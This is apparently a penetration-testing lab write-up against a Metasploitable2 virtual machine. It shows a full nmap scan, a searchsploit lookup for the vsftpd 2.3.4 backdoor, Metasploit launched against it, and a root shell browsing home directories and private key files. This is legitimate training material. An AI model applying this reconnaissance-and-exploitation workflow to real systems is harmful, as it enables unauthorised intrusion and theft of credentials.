








Nmap scan
Result from Nmap scan

┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- -sV -A -sT -O 192.168.10.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 15:11 GMT
Nmap scan report for 192.168.10.5
Host is up (0.00095s latency).
Not shown: 65505 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
| STAT:
| FTP server status:
| Connected to 192.168.10.4
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp open telnet Linux telnetd
25/tcp open smtp Postfix smtpd
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
53/tcp open domain ISC BIND 9.4.2
| dns-nsid:
|_ bind.version: 9.4.2
80/tcp open http Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100003 2,3,4 2049/tcp nfs
| 100003 2,3,4 2049/udp nfs
| 100005 1,2,3 36226/udp mountd
| 100005 1,2,3 59919/tcp mountd
| 100021 1,3,4 42684/udp nlockmgr
| 100021 1,3,4 59221/tcp nlockmgr
| 100024 1 34758/tcp status
|_ 100024 1 46926/udp status
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp open exec netkit-rsh rexecd
513/tcp open login?
514/tcp open shell Netkit rshd
1099/tcp open java-rmi GNU Classpath grmiregistry
1524/tcp open bindshell Metasploitable root shell
2049/tcp open nfs 2-4 (RPC #100003)
2121/tcp open ftp ProFTPD 1.3.1
3306/tcp open mysql MySQL 5.0.51a-3ubuntu5
| mysql-info:
| Protocol: 10
| Version: 5.0.51a-3ubuntu5
| Thread ID: 9
| Capabilities flags: 43564
| Some Capabilities: Support41Auth, ConnectWithDatabase, SupportsTransactions, Speaks41ProtocolNew, SupportsCompression, LongColumnFlag, SwitchToSSLAfterHandshake
| Status: Autocommit
|_ Salt: <tV3;j*-BClt&Xl9rT-$
3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp open postgresql PostgreSQL DB 8.3.0 - 8.3.7
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after: 2010-04-16T14:07:45
|_ssl-date: 2024-07-31T15:14:38+00:00; -1s from scanner time.
5900/tcp open vnc VNC (protocol 3.3)
| vnc-info:
| Protocol version: 3.3
| Security types:
|_ VNC Authentication (2)
6000/tcp open X11 (access denied)
6667/tcp open irc UnrealIRCd
| irc-info:
| users: 2
| servers: 1
| lusers: 2
| lservers: 0
| server: irc.Metasploitable.LAN
| version: Unreal3.2.8.1. irc.Metasploitable.LAN
| uptime: 0 days, 0:04:24
| source ident: nmap
| source host: BAAF933C.554FE7D2.FFFA6D49.IP
|_ error: Closing Link: ubstlwgky[192.168.10.4] (Quit: ubstlwgky)
6697/tcp open irc UnrealIRCd (Admin email admin@Metasploitable.LAN)
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/5.5
8787/tcp open drb Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
34758/tcp open status 1 (RPC #100024)
35701/tcp open java-rmi GNU Classpath grmiregistry
59221/tcp open nlockmgr 1-4 (RPC #100021)
59919/tcp open mountd 1-3 (RPC #100005)
MAC Address: 08:00:27:66:95:73 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts: metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
| smb-os-discovery:
| OS: Unix (Samba 3.0.20-Debian)
| Computer name: metasploitable
| NetBIOS computer name:
| Domain name: localdomain
| FQDN: metasploitable.localdomain
|_ System time: 2024-07-31T11:13:55-04:00
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
TRACEROUTE
HOP RTT ADDRESS
1 0.95 ms 192.168.10.5
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 254.32 seconds
┌──(kali㉿kali)-[~]
└─$

Ftp
FTP port is open and there is an explooit for it

┌──(kali㉿kali)-[~]
└─$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) | unix/remote/17491.rb
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
┌──(kali㉿kali)-[~]
└─$ msfcouncle
msfcouncle: command not found
┌──(kali㉿kali)-[~]
└─$ msfcounsol
msfcounsol: command not found
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: To save all commands executed since start up to a file, use the
makerc command
_ _
/ \ /\ __ _ __ /_/ __
| |\ / | _____ \ \ ___ _____ | | / \ _ \ \
| | \/| | | ___\ |- -| /\ / __\ | -__/ | || | || | |- -|
|_| | | | _|__ | |_ / -\ __\ \ | | | | \__/| | | |_
|/ |____/ \___\/ /\ \\___/ \/ \__| |_\ \___\
=[ metasploit v6.3.55-dev ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops ]
+ -- --=[ 9 evasion ]
Metasploit Documentation: https://docs.metasploit.com/
msf6 > searchsploit vsftpd 2.3.4
[*] exec: searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) | unix/remote/17491.rb
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
msf6 > options
Global Options:
===============
Option Current Setting Description
------ --------------- -----------
ConsoleLogging false Log all console input and output
LogLevel 0 Verbosity of logs (default 0, max 3)
MeterpreterPrompt meterpreter The meterpreter prompt string
MinimumRank 0 The minimum rank of exploits that will run without explicit confirmation
Prompt msf6 The prompt string
PromptChar > The prompt character
PromptTimeFormat %Y-%m-%d %H:%M:%S Format for timestamp escapes in prompts
SessionLogging false Log all input and output for sessions
SessionTlvLogging false Log all incoming and outgoing TLV packets
TimestampOutput false Prefix all console output with a timestamp
Starting the Metasploit Framework

Search for Exploit on Metasploit

Setting the Exploit

More setting

Exploit FTP and test “ls” command

Metasploit exploit
Here I use metasploit framework to exploit the FTP
To start metasploit
Search for the exploit in Metasploit
use Options
configure my payload
exploit FTP

Output from 192.168.10.5
whoami
root
cd home
ls
ftp
msfadmin
service
user
cd ftp
ls
ls -al
total 8
drwxr-xr-x 2 root nogroup 4096 Mar 17 2010 .
drwxr-xr-x 6 root root 4096 Apr 16 2010 ..
cd ..
ls
ftp
msfadmin
service
user
cd service
ls
ls -ls
total 0
ls -la
total 20
drwxr-xr-x 2 service service 4096 Apr 16 2010 .
drwxr-xr-x 6 root root 4096 Apr 16 2010 ..
-rw-r--r-- 1 service service 220 Apr 16 2010 .bash_logout
-rw-r--r-- 1 service service 2928 Apr 16 2010 .bashrc
-rw-r--r-- 1 service service 586 Apr 16 2010 .profile
cd .profile
sh: line 20: cd: .profile: Not a directory
cdmod +x .profile
sh: line 21: cdmod: command not found
chown +x .profile
chown: invalid user: `+x'
cd ..
ls
ftp
msfadmin
service
user
cd msfadmin
ls
vulnerable
cd vulnerable
ls
mysql-ssl
samba
tikiwiki
twiki20030201
ls -la
total 24
drwxr-xr-x 6 msfadmin msfadmin 4096 Apr 27 2010 .
drwxr-xr-x 5 msfadmin msfadmin 4096 May 20 2012 ..
drwxr-xr-x 3 msfadmin msfadmin 4096 Apr 28 2010 mysql-ssl
drwxr-xr-x 5 msfadmin msfadmin 4096 Apr 28 2010 samba
drwxr-xr-x 2 msfadmin msfadmin 4096 Apr 19 2010 tikiwiki
drwxr-xr-x 3 msfadmin msfadmin 4096 Apr 16 2010 twiki20030201
cd mysql-ssl
ls
my.cnf
mysql-keys
mysqld.gdb
yassl-1.9.8.zip
ls -la
total 956
drwxr-xr-x 3 msfadmin msfadmin 4096 Apr 28 2010 .
drwxr-xr-x 6 msfadmin msfadmin 4096 Apr 27 2010 ..
-rw-r--r-- 1 msfadmin msfadmin 428 Jan 26 2010 my.cnf
drwx------ 2 msfadmin msfadmin 4096 Jan 27 2010 mysql-keys
-rw-r--r-- 1 msfadmin msfadmin 226 Apr 19 2010 mysqld.gdb
-rw-r--r-- 1 msfadmin msfadmin 951427 Apr 19 2010 yassl-1.9.8.zip
cd myql-keys
sh: line 33: cd: myql-keys: No such file or directory
cd mysql-keys
ls -la
total 40
drwx------ 2 msfadmin msfadmin 4096 Jan 27 2010 .
drwxr-xr-x 3 msfadmin msfadmin 4096 Apr 28 2010 ..
-rw------- 1 msfadmin msfadmin 1480 Jan 26 2010 ca-cert.pem
-rw------- 1 msfadmin msfadmin 1675 Jan 26 2010 ca-key.pem
-rw------- 1 msfadmin msfadmin 1164 Jan 26 2010 client-cert.pem
-rw------- 1 msfadmin msfadmin 1679 Jan 26 2010 client-key.pem
-rw------- 1 msfadmin msfadmin 980 Jan 26 2010 client-req.pem
-rw------- 1 msfadmin msfadmin 1164 Jan 26 2010 server-cert.pem
-rw------- 1 msfadmin msfadmin 1679 Jan 26 2010 server-key.pem
-rw------- 1 msfadmin msfadmin 980 Jan 26 2010 server-req.pem
cd ..
ls
my.cnf
mysql-keys
mysqld.gdb
yassl-1.9.8.zip
cd /home/msfconfig
sh: line 38: cd: /home/msfconfig: No such file or directory
cd ..
ls
mysql-ssl
samba
tikiwiki
twiki20030201
cd ..
ls
vulnerable
cd ..
ls
ftp
msfadmin
service
user
cd user
ls
ls -la
total 28
drwxr-xr-x 3 user user 4096 May 7 2010 .
drwxr-xr-x 6 root root 4096 Apr 16 2010 ..
-rw------- 1 user user 165 May 7 2010 .bash_history
-rw-r--r-- 1 user user 220 Mar 31 2010 .bash_logout
-rw-r--r-- 1 user user 2928 Mar 31 2010 .bashrc
-rw-r--r-- 1 user user 586 Mar 31 2010 .profile
drwx------ 2 user user 4096 May 7 2010 .ssh